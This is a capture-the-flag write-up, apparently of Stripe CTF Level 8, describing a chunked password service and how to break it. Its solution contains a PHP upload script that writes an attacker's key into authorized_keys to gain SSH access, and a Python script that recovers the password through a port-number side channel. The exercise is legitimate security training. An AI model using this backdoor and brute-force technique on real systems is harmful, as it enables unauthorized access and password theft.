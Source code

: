 ## Level 8

Welcome to the final level, Level 8.

HINT 1: No, really, we're not looking for a timing attack.

HINT 2: Running the server locally is probably a good place to start. Anything interesting in the output?

UPDATE: If you push the reset button, you will be bounced to a new `level08` machine. Note that this will change the value of your Flag. If you push reset on Level 2, you will similarly be bounced to a new Level 2 machine, but your Flag won't change.

Because password theft has become such a rampant problem, a security firm has decided to create PasswordDB, a new and secure way of storing and validating passwords. You've recently learned that the Flag itself is protected in a PasswordDB instance, accesible at https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/.

PasswordDB exposes a simple JSON API. You just POST a payload of the form `{"password": "password-to-check", "webhooks": ["mysite.com:3000", ...]}` to PasswordDB, which will respond with a `{"success": true}` or `{"success": false}` to you and your specified webhook endpoints.

(For example, try running `curl https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/ -d '{"password": "password-to-check", "webhooks": []}'`.)

In PasswordDB, the password is never stored in a single location or process, making it the bane of attackers' respective existences. Instead, the password is "chunked" across multiple processes, called "chunk servers". These may live on the same machine as the HTTP-accepting "primary server", or for added security may live on a different machine. PasswordDB comes with built-in security features such as timing attack prevention and protection against using unequitable amounts of CPU time (relative to other PasswordDB instances on the same machine).

As a secure cherry on top, the machine hosting the primary server has very locked down network access. It can only make outbound requests to other `stripe-ctf.com` servers. As you learned in Level 5, someone forgot to internally firewall off the high ports from the Level 2 server. (It's almost like someone on the inside is helping you — there's an [sshd](http://linux.about.com/od/commands/l/blcmdl8_sshd.htm) running on the Level 2 server as well.)

To maximize adoption, usability is also a goal of PasswordDB. Hence a launcher script, `password_db_launcher`, has been created for the express purpose of securing the Flag. It validates that your password looks like a valid Flag and automatically spins up 4 chunk servers and a primary server.

You can obtain the code for PasswordDB from `git clone https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/level08-code`.

### Running

- Run password_db_launcher. For example:

    `./password_db_launcher 123456789012 127.0.0.1:3000`

  will start a PasswordDB instance running on 127.0.0.1:3000 and with the Flag set to `123456789012`

- Make sure you're using Twisted 11.1.0
- Connect using curl:

    `curl 127.0.0.1:3000 -d '{"password": 123456789012, "webhooks": []}'`

### Solution

First, gain SSH access to a `*.stripe-ctf.com` machine by uploading the following PHP script to your `level02` endpoint:

```php
#!/usr/bin/env php
<?php
$dir = exec("pwd");
mkdir("$dir/../../.ssh");
$file = fopen("$dir/../../.ssh/authorized_keys", "w");
fputs($file, "ssh-dss <your-public-key>");
fclose($file);
```

After logging into your `level02` machine as `user-xxxxxxxxxx`, run the following Python script:

```python
#!/usr/bin/env python 
import socket
import urllib
import json
import sys

port = 12121

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('0.0.0.0', port))
sock.listen(5)

last_port, min_offset = 0, 2

def resolve_chunk(sock, port_offset, known = ""):
  candidates, last_port = range(0, 1000), 0
  while len(candidates) > 1:
    next_candidates = []
    for candidate in candidates:
      password = ("%s%03d" % (known, candidate)).ljust(12, "0");
      params = '{"password": "%s", "webhooks": ["level02-1.stripe-ctf.com:%d"]}' % (password, port)
      response = urllib.urlopen("https://level08-1.stripe-ctf.com/user-xxxxxxxxxx/", params)
      result = json.loads(response.read())['success']
      if result:
        print password
        sys.exit()

      client, address = sock.accept()
      data = client.recv(1024)
      port_diff = address[1] - last_port
      if port_diff >= port_offset:
        next_candidates.append(candidate)
      last_port = address[1]
    candidates = next_candidates
  return str(candidates[0])

known = resolve_chunk(sock, 4)
known += resolve_chunk(sock, 5, known)
known += resolve_chunk(sock, 6, known)
known += resolve_chunk(sock, 7, known)
print known
```

Originally posted at [https://stripe-ctf.com/levels/8](https://stripe-ctf.com/levels/8).
